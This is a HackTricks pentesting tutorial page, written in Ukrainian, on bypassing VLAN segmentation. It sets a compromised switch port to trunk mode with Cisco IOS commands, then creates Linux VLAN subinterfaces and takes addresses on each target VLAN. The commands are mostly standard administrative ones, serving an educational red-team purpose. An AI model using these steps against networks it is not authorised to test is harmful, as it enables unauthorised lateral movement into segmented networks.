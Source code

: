 # Lateral VLAN Segmentation Bypass

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Якщо доступ до комутатора є прямим, сегментацію VLAN можна обійти. Це передбачає переналаштування підключеного порту в режим trunk, створення віртуальних інтерфейсів для цільових VLAN та налаштування IP-адрес, або динамічно (DHCP), або статично, залежно від сценарію (**для отримання додаткової інформації дивіться [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)).**

Спочатку необхідно ідентифікувати конкретний підключений порт. Це зазвичай можна зробити через повідомлення CDP або шляхом пошуку порту за допомогою маски **include**.

**Якщо CDP не працює, можна спробувати ідентифікувати порт, шукаючи MAC-адресу**:
```
SW1(config)# show mac address-table | include 0050.0000.0500
```
Перед переходом в режим trunk, слід скласти список існуючих VLAN та визначити їх ідентифікатори. Ці ідентифікатори потім призначаються інтерфейсу, що дозволяє отримати доступ до різних VLAN через trunk. Порт, що використовується, наприклад, асоційований з VLAN 10.
```
SW1# show vlan brief
```
**Перехід в режим trunk передбачає вхід в режим конфігурації інтерфейсу**:
```
SW1(config)# interface GigabitEthernet 0/2
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode trunk
```
Переключення в режим trunk тимчасово порушить з'єднання, але його можна відновити пізніше.

Потім створюються віртуальні інтерфейси, їм призначаються VLAN ID та активуються:
```bash
sudo vconfig add eth0 10
sudo vconfig add eth0 20
sudo vconfig add eth0 50
sudo vconfig add eth0 60
sudo ifconfig eth0.10 up
sudo ifconfig eth0.20 up
sudo ifconfig eth0.50 up
sudo ifconfig eth0.60 up
```
В подальшому запит адреси здійснюється через DHCP. Альтернативно, у випадках, коли DHCP не є життєздатним, адреси можна налаштувати вручну:
```bash
sudo dhclient -v eth0.10
sudo dhclient -v eth0.20
sudo dhclient -v eth0.50
sudo dhclient -v eth0.60
```
Приклад ручного налаштування статичної IP-адреси на інтерфейсі (VLAN 10):
```bash
sudo ifconfig eth0.10 10.10.10.66 netmask 255.255.255.0
```
З'єднання перевіряється шляхом ініціювання ICMP запитів до шлюзів за замовчуванням для VLAN 10, 20, 50 та 60.

Врешті-решт, цей процес дозволяє обійти сегментацію VLAN, що полегшує необмежений доступ до будь-якої VLAN мережі та створює умови для подальших дій.

## References

* [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
